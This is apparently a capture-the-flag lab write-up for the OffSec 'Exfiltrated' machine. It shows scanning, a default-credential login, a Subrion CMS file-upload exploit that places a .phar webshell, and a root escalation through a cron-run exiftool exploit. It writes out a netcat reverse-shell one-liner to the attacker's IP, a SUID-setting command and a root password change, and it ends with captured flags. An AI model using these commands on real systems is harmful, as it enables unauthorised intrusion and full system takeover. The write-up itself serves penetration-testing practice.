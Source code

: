 ```yaml
---
box_name: "Exfiltrated"
author: "James Heringer"
platform: "Offsec"
date: 2025-10-02
tags: [CRON,EXIF,Subrion]
difficulty: "easy"
---
```


# EXFILTRATED

* [Exfiltrated](https://portal.offsec.com/machine/exfiltrated-17398/overview/details)
* Target IP = 192.168.102.163
* Tun0 IP =   192.168.45.167

## Summary
1. Enum, identify Virtual Host in place.
2. Add exfiltrated.offsec to /etc/hosts
3. Enumerate again, find URL : http://exfiltrated.offsec/panel/
4. Guess password for admin user, (admin:admin)
5. Searchsploit identify Subrion CMS has file upload vuln.
6. Find file upload section, insert PHP reverse shell with .phar extension
7. Identify running CRON job with root user using pspy64 tool
8. Alternative, read CRONtab `cat /etc/crontab`
9. Identify image-exif.sh script running every minute
10. Read thorugh .sh script to identify IMAGE folder and EXIF tool being used
11. Identify VULN in exif tool , `exif -version; searchsploit exiftool`
12. Test RevShell to find variant that loads in this environment with www-data user, before building image file
13. Stage RevShell image file in `/var/www/html/subrion/uploads`
14. Profit

## Enum
```bash
sudo masscan 192.168.102.163 --top-ports 1000 --rate 1000 -e tun0
Discovered open port 22/tcp on 192.168.102.163                                 
Discovered open port 80/tcp on 192.168.102.163  

sudo nmap -p22,80  -sV -sC -O -T4 192.168.102.163
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-server-header: Apache/2.4.41 (Ubuntu)

# go buster had a wierd error.. had to add this blacklist section
gobuster dir -u http://192.168.102.163 -w /usr/share/wordlists/dirb/common.txt -t 40 -x .php,.txt,.html --status-codes-blacklist 302,301

changelog.txt        (Status: 200) [Size: 49250]
/favicon.ico          (Status: 200) [Size: 1150]
/license.txt          (Status: 200) [Size: 35147]
/panel.txt            (Status: 200) [Size: 6083]
/panel.php            (Status: 200) [Size: 6083]
/panel.html           (Status: 200) [Size: 6083]
sitemap.xml          (Status: 200) 
/robots.txt           (Status: 200)

# CURL headers
curl -I http://192.168.102.163  
#Server: Apache/2.4.41 (Ubuntu)

curl -i http://192.168.102.163/robots.txt
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/      
```

* Browsing initially didn't work, had to update /etc/hosts file with `192.168.102.163 exfiltrated.offsec`
* There was a link to Admin Dasbhoard on homepage, logged in wth default credential of `admin:admin`
* Good link here as well : http://exfiltrated.offsec/panel/
* Under Content -> BLog -> lists valid extensions for upload192.1

```shell 
searchsploit -t "subrion"     
searchsploit -m  php/webapps/49876.py
python3 ./49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
http://exfiltrated.offsec/panel/uploads/oaqmeccppvspham.phar 


```
* once initial 'webshell' is uploaded.. go back into the panel.. and upload the simple-php-reverse-shell, but name it .phar
* access it by right-click -> get info -> LINK
* Bash RevShell should now be online
```bash
* cat /etc/crontab
	* * *	root	bash /opt/image-exif.sh

```

* searchsploit exiftool
* searchsploit -m linux/local/50911.py
* Exif tool is getting executed by root, so  we need to get a malicious image in place for it to trigger
* Missing dependency for the exploiit.. 
* sudo apt install djvulibre-bin

* 50911.py -c "chmod u+s /bin/dash"   # output is an image.jpg file
* python3 50911.py -c "echo 'root:pass' | sudo chpasswd" 
python3 50911.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.167 4445 >/tmp/f"
* Note : test the stupid rev shell to ensure it works beforoe trying to embed it into the image.. 


* set the SUID bit, so after cron runs, if we run dash we'll be root
* stage file and grab from target: witih wget
cat /opt/image-exif.sh
IMAGES='/var/www/html/subrion/uploads'
 cp image.jpg /var/www/html/subrion/uploads/


## LOOT 
```bash
 # cat local.txt
63593e7ea6cc6079ac01866717e1aa9d
# pwd
/home/coaran
# pwd
/root
# cat proof.txt
2e6291d371270765d93af8137ddf8c08



